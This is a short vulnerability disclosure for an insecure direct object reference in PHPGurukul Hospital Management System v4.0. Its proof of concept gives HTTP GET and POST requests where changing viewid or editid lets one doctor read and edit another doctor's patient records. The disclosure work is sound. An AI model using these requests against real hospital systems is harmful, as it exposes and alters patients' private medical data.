 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Phpgurukul
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to look up and update the information of patient who is managed by other doctor(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /hospital/hms/doctor/view-patient.php?viewid=2(CHANGE HERE) HTTP/1.1
```

```
POST /hospital/hms/doctor/edit-patient.php?editid=2(CHANGE HERE) HTTP/1.1
...

patname=user1p&patcontact=111112&patemail=user1p%40test.com&gender=Male&pataddress=bbb&patage=20&medhis=0&submit=
```